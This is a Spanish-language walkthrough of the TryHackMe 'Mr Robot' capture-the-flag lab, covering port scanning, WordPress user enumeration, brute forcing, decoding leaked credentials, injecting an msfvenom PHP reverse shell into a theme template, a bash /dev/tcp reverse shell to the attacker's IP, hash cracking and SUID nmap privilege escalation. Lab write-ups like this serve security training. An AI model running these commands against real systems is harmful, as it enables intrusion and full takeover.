


# Ejercicio Práctico Maquina Mr Robot CTF – Hacking WordPress + Escalada de Privilegios

Maquinas que vamos a utilizar **Kali Linux y mrrobot**  [https://tryhackme.com/room/mrrobot](https://tryhackme.com/room/mrrobot)

```bash
ping -c 1 10.10.192.154
```



```bash
nmap -p- -sS -sV -sC --open -min-rate=5000 -n -vvv -Pn 10.10.192.154
```
 


- Miramos el puerto 80 con nuestro navegador web
    
    
    

- Miramos lo que corre por el puerto 443 por donde también hay un servidor web.
    
    
    
    Corre la misma web
    

- Hacemos fuzzing con **gobuster.**
    
    ```bash
    gobuster dir -u http://10.10.192.154/ -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
    ```
    
    
    
    Vemos que es un WordPress.
    
- Vamos a probar a entrar en **wp-login**.
    
    `http://10.10.192.154/wp-login`
    
    
    
    Imaginemos que sospechamos o adivínanos el **usuario “Elliot”.**
    
    <aside>
    💡
    
    En WordPress en versiones un poco antiguas podemos comprobar si existe ese usuario por el tipo de error que nos genera al introducirlo con una contraseña errónea. 
    
    Si no fuera un usuario existente el error seria el siguiente: “**ERROR: Invalid username. Lost your password?**” → “**ERROR: Usuario no válido. ¿Olvidaste tu contraseña?”**
    
    
    
    Básicamente seria este mensaje en el que se entiende que el usuario existe.
    
    **“ERROR: The password you entered for the username Elliot is incorrect. Lost your password?” → “ERROR: La contraseña que introdujiste para el usuario Elliot es incorrecta. ¿Perdiste tu contraseña?”**
    
    
    
    </aside>
    
- Ya que tenemos un nombre de usuario hacemos un ataque de fuerza bruta con **WpScan** ya que **estamos en un WordPress.**
    
    ```bash
    wpscan --url [http://10.10.192.154/wp-login.php](./imagenes/http://10.10.192.154/wp-login.php) --passwords /usr/share/wordlists/rockyou.txt --usernames Elliot
    ```
    
    
    
    En este caso **el ataque de fuerza bruta no funciona**. Debemos investigar por los directorios.
    
    En esta maquina dentro del directorio `/license` que hemos encontrado con gobuster encontramos una línea al final del archivo que nos muestra.
    
    
    
    
    
    `ZWxsaW90OkVSMjgtMDY1Mgo=`
    
    - Es importante **probar** si esta **codificado en base64** de esta manera**:**
        
        ```bash
        echo 'ZWxsaW90OkVSMjgtMDY1Mgo=' | base64 -d
        ```
        
        
        
        Donde estaría el **usuario y la contraseña**: “**elliot:ER28-0652**”
        
- Nos volvemos a **wp-login** y introducimos las credenciales.
    
    
    

---

- Vamos a ganar acceso a la maquina victima
    - En el menú Izquierdo acedemos a **Appearance  → Editor**
        
        
        
        
        
    - En una terminal vamos a crear un Payload **malicioso en php con msfvenom**.
        
        ```bash
        msfvenom -p php/reverse_php LHOST=10.21.166.149 LPORT=443 -f raw > wp.php
        ```
        
        
        
    - Lo visualizamos y copiamos todo su contenido al portapapeles.
        
        ```bash
        cat pwned.php 
        ```
        
        
        
    
    - Editamos la platilla por ejemplo la “**404 Template**”. Eliminamos s contenido y pegamos el del archivo malicioso que hemos creado.
        
        
        
    - En un terminal nos ponemos a la escucha con netcat.
        
        ```bash
        nc -nlvp 443
        ```
        
        
        
    - Vamos al navegador web y escribimos la siguiente URL `http://10.10.118.131/wp-content/hdkfdskfd`
        
        `/wp-content` - Es la ruta donde se encuentran las plantillas.
        
        `/hdkfdskfd` - Es inventado por que lo que queremos es que nos de un error 404 y nos cargue la plantilla con el código malicioso.
        
        
        
        
        
        Ya tenemos la conexión.
        
    - Vamos a **estabilizarla la conexión** y hacer el **tratamiento de la TTY**.
        - Ponemos el puerto 4444 a la escucha
            
            
            
        - Vamos a la web [https://www.revshells.com/](./imagenes/https://www.revshells.com/)
            
            
            
            `bash -c "sh -i >& /dev/tcp/10.21.166.149/4444 0>&1"`
            
            Lo pegamos en el escucha del puerto 443
            
            
            
            Y ya tendríamos una conexión estable en la escucha del puerto 4444.
            
            
            
        - Hacemos el tratamiento de la TTY
            
            En este caso un tratamiento estándar de la TTY no funciona así que vamos a poner lo siguiente:
            
            `python -c "import pty;pty.spawn('/bin/bash')”`
            
            
            
    - Nos movemos por los directorios y nos encontramos un archivo llamado **password.raw-md5** en la carpeta **/home/robot.** Miramos en su interior.
        
        `cat password.raw-md5`
        
        
        
        Vemos que hay una **contraseña hasheada**.
        
    - Utilizaríamos John the Ripper o vamos a la web [https://crackstation.net/](./imagenes/https://crackstation.net/) y introducimos  la contraseña hasheada.
        
        
        
    
    `abcdefghijklmnopqrstuvwxyz`
    
    - Vamos a cambiarnos de usuario a **usuario rotbot.**
        
        `su robot`
        
        
        
    
    - Hacemos una escalada de privilegios
        
        `sudo -l`
        
        
        
        Vemos que no funciona
        
    - Buscamos **binarios SUID.**
        
        `find / -perm -4000 2>/dev/null`
        
        
        
    
    - Utilizamos la web de [https://gtfobins.github.io/](./imagenes/https://gtfobins.github.io/) para ver si podemos utilizar alguno y como hacerlo. Por ejemplo  **/usr/local/bin/nmap**
        
        
        
    - Como TIP En caso de no funcionar echaremos mano a las búsquedas en internet
        
        `nmap privilege escalation suid`
        
        
        
        
        
        **Lo probamos:**
        
        `nmap --interactive`
        
        `!sh`
        
        `whoami`
        
        